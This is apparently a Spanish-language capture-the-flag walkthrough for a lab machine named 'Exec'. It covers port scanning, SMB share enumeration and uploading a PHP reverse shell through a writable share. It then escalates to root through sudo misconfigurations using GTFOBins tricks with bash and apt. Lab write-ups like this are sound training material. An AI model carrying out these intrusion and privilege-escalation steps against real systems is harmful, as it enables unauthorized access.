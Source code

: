 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Exec

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.74
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.74 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el **puerto 22** perteneciente al **servicio SS**H, el **puerto 80** perteneciente al **servicio HTTP**, el **puerto 139** y el **puerto 445**, ambos pertenecientes al **servicio SMB** (Server Message Block), están abiertos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,139,445 -v 192.168.1.74
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80. Como podemos ver es la página de por defecto de Apache.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Revisamos directorios.

```bash
gobuster dir -u http://192.168.1.74 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

No encontramos nada por lo que revisamos el servicio SAMBA al listar los directorios compartidos.

```bash
smbclient -N -L 192.168.1.74
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Vemos que permisos tenemos.

```bash
smbmap -H 192.168.1.74
```

Tenemos permisos de escritura y lectura en el directorio compartido **/server**.

```bash
smbclient //192.168.1.74/server
```

### 🚀 **EXPLOTACIÓN**

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Voy a intentar subir una Reverse Shell ya que parece ser que corresponden a las páginas del puerto 80.

```
put revshell.php
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.&#x20;

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/bash/#suid" %}

<pre class="language-bash"><code class="lang-bash"><strong>sudo -u s3cur4 /usr/bin/bash
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/apt/#suid" %}

```bash
sudo -u root /usr/bin/apt changelog apt
!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.
